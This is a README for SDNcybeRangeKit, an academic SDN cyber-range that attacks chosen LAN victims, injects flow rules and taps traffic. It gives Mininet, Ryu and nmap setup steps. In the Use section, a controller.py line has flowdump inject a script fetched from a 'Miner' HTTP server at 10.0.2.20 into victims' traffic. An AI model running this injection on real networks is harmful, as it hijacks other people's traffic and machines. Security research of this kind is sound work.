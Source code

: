 # SDNcybeRangeKit

A penetration testing and digital forensics environment 

**Warning: this [PRIVATE] project is for academic/research purposes only.**
@inproceedings{DBLP:conf/itasec/LetteriRCC18,
  author    = {Ivan Letteri and
               Massimo Del Rosso and
               Pasquale Caianiello and
               Dajana Cassioli},
  title     = {Performance of Botnet Detection by Neural Networks in Software-Defined
               Networks},
  booktitle = {Proceedings of the Second Italian Conference on Cyber Security, Milan,
               Italy, February 6th - to - 9th, 2018.},
  year      = {2018},
  crossref  = {DBLP:conf/itasec/2018},
  url       = {http://ceur-ws.org/Vol-2058/paper-03.pdf},
  timestamp = {Tue, 28 May 2019 16:23:34 +0200},
  biburl    = {https://dblp.org/rec/bib/conf/itasec/LetteriRCC18},
  bibsource = {dblp computer science bibliography, https://dblp.org}
}

A blog post about this project can be read here:  https://www.ivanletteri.it/2019/09/29/performance-of-botnet-detection-by-neural-networks-in-software-defined-networks/

![SDNcyberRangeKit]( https://www.ivanletteri.it/2019/02/10/sdncrkit/master/sdncrkit-logo-small.png "SDNcybeRangeKit")

INSTALL MININET

git clone git://github.com/mininet/mininet
cd mininet/
mininet/util/install.sh -nfv
sudo mn --test pingall
sudo apt-get install net-tools
sudo mn --test pingall

INSTALL PIP and PIP3

sudo apt install python-pip
sudo apt install python3-pip

INSTALL RYU Controller 

git clone git://github.com/osrg/ryu.git
cd ryu; pip install .
ls
./run_tests.sh 
cd ..
sudo apt install gcc python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev zlib1g-dev
cd ryu/
ls
cd bin/
ls
./ryu-manager ../ryu/app/simple_switch_13.py 

INSTALL NMAP for testing

sudo apt-get install nmap
cd ryu/
ls
./run_tests.sh 
ryu-manager ../ryu/app/simple_switch_13.py

nmap 127.0.0.1 -p-

START Mininet with Remote Ryu Controller

sudo mn --controller=remote,ip=127.0.0.1,port=6633


## Concept
- Performs a SDN scenario attacks to all selected victims
- Injects SDN rules 
- Tapping the network
- All the devices victims connected to the Lan network, will be monitored for the SDNcybeRangeMonitor


## Use
- install.sh
```
bash install.sh
```
- edit hosts.txt with one IP per line
- edit controller.py, line 30, with the RyuControlleMiner httpserver IP:
```py
os.system("~/.local/bin/flowdump -s 'dump.py http://10.0.2.20:5600/script.js' -T")
```
- execute sdn-cyberange-kit.py
```
python3 sdn-cyberange-kit.py ipgateway
```

![network](https://www.ivanletteri.it/2019/02/10/sdncrkit/master/SDNcybeRangeKit-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/IvanLetteri/SDNcybeRangeKit/blob/master/virtualbox_scenario_instructions.md



![demo](https://www.ivanletteri.it/2019/02/10/sdncrkit/master/SDNcybeRangeKit-demo-cutted.gif "demo")
